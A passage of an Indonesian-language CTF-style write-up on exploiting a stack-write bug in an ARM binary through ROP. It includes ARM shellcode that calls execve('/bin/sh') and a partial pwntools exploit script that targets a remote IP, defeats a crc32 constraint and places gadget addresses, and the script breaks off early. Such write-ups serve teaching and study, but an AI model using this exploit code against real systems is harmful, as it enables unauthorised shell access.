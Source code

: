 Ok, udah tahu bugnya, gimana cara exploit-nya? bisa `write_to_stack` dimana aja relatif terhadap `v0`/`v1`. Nah, karena binary ini `NX` enabled jadi yang bisa dilakukan itu ROP. Sebagai gambaran, ROP yang mau dicapai itu execve, (shellcode diambil dari azeria-labs)

```asm
.section .text
.global _start

_start:
        add r0, pc, #12
        mov r1, #0
        mov r2, #0
        mov r7, #11
        svc #0

.ascii "/bin/sh\0"
```

Sebelum bahasan agak lebih jauh, `write_to_stack` ini sendiri ada batasannya juga, data yang ditulis di stack itu crc32 dari data yang di input. Agak sedikit tricky, untungnya ada tools dari <http://reveng.sourceforge.net> untuk reverse crc32.

ROP di arm sebenernya ga jauh beda dengan ROP di x86, intinya sama harus cari gadgets yang "_reliable_" untuk kontrol pc dan register. Baca lanjut yang lebih jelas ke <https://azeria-labs.com/> untuk ARM exploitations.

---

## Final Exploit

gadgets yang dipakai untuk final exploit ini gak langsung `pop` semua register karena untuk menghindari bad bytes saat _transmisi data?_

```py
#r = remote('127.0.0.1', 5555)
r = remote('159.65.80.92', 31337)

raw_input('[ENTER TO CONTINUE]')

def write_to_stack(pos, buf, more=True):
    r.sendlineafter('slot: ', str(pos))
    r.sendlineafter('storage: ', buf)
    print r.recvline(keepends=False)
    r.sendline('y' if more else 'n')

def reverse_crc32(x):
    buf = (((x << 24) & 0xFF000000) | ((x <<  8) & 0x00FF0000) | ((x >>  8) & 0x0000FF00) | ((x >> 24) & 0x000000FF))
    buf = hex(buf)[2:].rjust(8, '0')
    m = process(['./reveng/reveng', '-m', 'crc-32', '-v', buf])
    ret = m.recvline(keepends=False)
    m.close()
    return ret.decode('hex')

context.log_level = 'WARN'

payload = '/bin/sh\x00'
payload += p32(0x0006ef8c)
payload += p32(0x0006ef8c)
payload += p32(0x0006ef8c)

r.sendline(payload) #login
r.sendline('1') # menu store

write_to_stack(13, reverse_crc32(0x00099014)) # fp

```